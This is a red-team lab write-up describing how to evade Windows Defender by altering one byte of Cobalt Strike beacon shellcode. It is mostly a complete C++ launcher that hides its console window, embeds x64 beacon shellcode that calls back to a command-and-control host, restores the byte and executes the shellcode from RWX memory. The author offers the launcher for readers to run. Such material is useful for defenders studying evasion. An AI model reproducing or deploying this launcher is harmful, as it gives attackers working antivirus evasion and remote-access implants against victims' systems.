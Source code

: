 # Evading Windows Defender with Classic C Shellcode Launcher

This is a fun little lab to illustrate that sometimes changing just 1 byte in the shellcode is enough to bypass certain antivirus products, including the latest Windows Defender at the time of writing 11th Jan, 2019.

In this lab I'm using Windows 10 \(1803\) as a victim system, Kali running Cobalt Strike and Windows 7 where bad C++ happens.

## Out of the Box Payload Getting Caught

As you probably know, default / out of the box payloads are usually caught by antivirus vendors immedialy. No exception is the Cobalt Strike's default stageless beacon which gets flagged by Windows Defender on Windows 10:

![](../.gitbook/assets/screenshot-from-2019-01-11-13-02-28.png)

Can we do something about it?

## 1byte-trick to Evade Windows Defender

Let's generate a Cobalt Strike shellcode for our listener in C:

![](../.gitbook/assets/screenshot-from-2019-01-11-14-35-25.png)

Note that the first byte of the shellcode is `\xfc`.

For the next step, I'm using a classic shellcode injection technique I played with in [T1055: Process Injection](t1055-process-injection/).

Let's put the shellcode we got into the launcher, but with a small twist:

* Change `\xfc` to any other byte value. I chose `\xfd` \(line 80\)
* Store the correct first byte `\xfc` in a char variable \(line 81\)
* Before copying the full shellcode to the newly allocated memory, flip the bad byte `\xfd` with a good one `\xfc` \(line 86\)
* Build the executable
* Profit?

![](../.gitbook/assets/screenshot-from-2019-01-11-14-32-50.png)

Below is the source code if you want to test it in your environment:

{% code-tabs %}
{% code-tabs-item title="shellcodelauncher.cpp" %}
```cpp
#include "stdafx.h"
#include "Windows.h"

int main(int argc, char *argv[]) {
	::ShowWindow(::GetConsoleWindow(), SW_HIDE);

	// cobalt strike beacon shellcode x64
	unsigned char shellcode[] = "\xfd\x48\x83\xe4\xf0\xe8\xc8\x00\x00\x00\x41\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x66\x81\x78\x18\x0b\x02\x75\x72\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b\x12\xe9\x4f\xff\xff\xff\x5d\x6a\x00\x49\xbe\x77\x69\x6e\x69\x6e\x65\x74\x00\x41\x56\x49\x89\xe6\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\x48\x31\xc9\x48\x31\xd2\x4d\x31\xc0\x4d\x31\xc9\x41\x50\x41\x50\x41\xba\x3a\x56\x79\xa7\xff\xd5\xeb\x73\x5a\x48\x89\xc1\x41\xb8\xbb\x01\x00\x00\x4d\x31\xc9\x41\x51\x41\x51\x6a\x03\x41\x51\x41\xba\x57\x89\x9f\xc6\xff\xd5\xeb\x59\x5b\x48\x89\xc1\x48\x31\xd2\x49\x89\xd8\x4d\x31\xc9\x52\x68\x00\x02\x60\x84\x52\x52\x41\xba\xeb\x55\x2e\x3b\xff\xd5\x48\x89\xc6\x48\x83\xc3\x50\x6a\x0a\x5f\x48\x89\xf1\x48\x89\xda\x49\xc7\xc0\xff\xff\xff\xff\x4d\x31\xc9\x52\x52\x41\xba\x2d\x06\x18\x7b\xff\xd5\x85\xc0\x0f\x85\x9d\x01\x00\x00\x48\xff\xcf\x0f\x84\x8c\x01\x00\x00\xeb\xd3\xe9\xe4\x01\x00\x00\xe8\xa2\xff\xff\xff\x2f\x63\x72\x38\x50\x00\x35\x4f\x21\x50\x25\x40\x41\x50\x5b\x34\x5c\x50\x5a\x58\x35\x34\x28\x50\x5e\x29\x37\x43\x43\x29\x37\x7d\x24\x45\x49\x43\x41\x52\x2d\x53\x54\x41\x4e\x44\x41\x52\x44\x2d\x41\x4e\x54\x49\x56\x49\x52\x55\x53\x2d\x54\x45\x53\x54\x2d\x46\x49\x4c\x45\x21\x24\x48\x2b\x48\x2a\x00\x35\x4f\x21\x50\x25\x00\x55\x73\x65\x72\x2d\x41\x67\x65\x6e\x74\x3a\x20\x4d\x6f\x7a\x69\x6c\x6c\x61\x2f\x34\x2e\x30\x20\x28\x63\x6f\x6d\x70\x61\x74\x69\x62\x6c\x65\x3b\x20\x4d\x53\x49\x45\x20\x37\x2e\x30\x3b\x20\x57\x69\x6e\x64\x6f\x77\x73\x20\x4e\x54\x20\x35\x2e\x31\x3b\x20\x2e\x4e\x45\x54\x20\x43\x4c\x52\x20\x31\x2e\x31\x2e\x34\x33\x32\x32\x29\x0d\x0a\x00\x35\x4f\x21\x50\x25\x40\x41\x50\x5b\x34\x5c\x50\x5a\x58\x35\x34\x28\x50\x5e\x29\x37\x43\x43\x29\x37\x7d\x24\x45\x49\x43\x41\x52\x2d\x53\x54\x41\x4e\x44\x41\x52\x44\x2d\x41\x4e\x54\x49\x56\x49\x52\x55\x53\x2d\x54\x45\x53\x54\x2d\x46\x49\x4c\x45\x21\x24\x48\x2b\x48\x2a\x00\x35\x4f\x21\x50\x25\x40\x41\x50\x5b\x34\x5c\x50\x5a\x58\x35\x34\x28\x50\x5e\x29\x37\x43\x43\x29\x37\x7d\x24\x45\x49\x43\x41\x52\x2d\x53\x54\x41\x4e\x44\x41\x52\x44\x2d\x41\x4e\x54\x49\x56\x49\x52\x55\x53\x2d\x54\x45\x53\x54\x2d\x46\x49\x4c\x45\x21\x24\x48\x2b\x48\x2a\x00\x35\x4f\x21\x50\x25\x40\x41\x50\x5b\x34\x5c\x50\x5a\x58\x35\x34\x28\x50\x5e\x29\x37\x43\x43\x29\x37\x7d\x24\x45\x49\x43\x41\x52\x2d\x53\x54\x41\x4e\x44\x41\x52\x44\x2d\x41\x4e\x54\x49\x56\x49\x52\x55\x53\x2d\x54\x45\x53\x54\x2d\x46\x49\x4c\x45\x21\x24\x48\x2b\x48\x2a\x00\x35\x4f\x21\x50\x25\x40\x41\x50\x5b\x34\x5c\x50\x5a\x58\x35\x00\x41\xbe\xf0\xb5\xa2\x56\xff\xd5\x48\x31\xc9\xba\x00\x00\x40\x00\x41\xb8\x00\x10\x00\x00\x41\xb9\x40\x00\x00\x00\x41\xba\x58\xa4\x53\xe5\xff\xd5\x48\x93\x53\x53\x48\x89\xe7\x48\x89\xf1\x48\x89\xda\x41\xb8\x00\x20\x00\x00\x49\x89\xf9\x41\xba\x12\x96\x89\xe2\xff\xd5\x48\x83\xc4\x20\x85\xc0\x74\xb6\x66\x8b\x07\x48\x01\xc3\x85\xc0\x75\xd7\x58\x58\x58\x48\x05\x00\x00\x00\x00\x50\xc3\xe8\x9f\xfd\xff\xff\x31\x30\x2e\x30\x2e\x30\x2e\x35\x00\x00\x00\x00\x00";
	char first[] = "\xfc";
	void *exec = VirtualAlloc(0, sizeof shellcode, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	
	memcpy(shellcode, first, 1);
	memcpy(exec, shellcode, sizeof shellcode);
	((void(*)())exec)();
	
	return 0;
}
```
{% endcode-tabs-item %}
{% endcode-tabs %}

## Execution

On the left - Windows 10 with Windows Defender turned on and on the left is Cobalt Strike receiving the beacon checkin once our shellcode is invoked:

![](../.gitbook/assets/peek-2019-01-11-14-45.gif)

{% hint style="danger" %}
Since this is a quick and dirty proof of concept, the console Window is visible for a brief moment, meaning a target user can suspect nefarious activity. However, the aim of this lab is to show that a change in one byte is sometimes enough to evade AV detection.
{% endhint %}

Below shows that the beacon that called back is stable and working as expected:

![](../.gitbook/assets/screenshot-from-2019-01-11-14-47-10.png)

Below is another quick demo showing that the latest Windows updates were installed at the time of testing the POC on 11th Jan, 2019:

![](../.gitbook/assets/peek-2019-01-11-15-02.gif)

## Default Payload

Below shows that if the Cobalt Strike shellcode is injected as is, it immediately gets flagged by Defender:

![](../.gitbook/assets/peek-2019-01-11-16-50.gif)

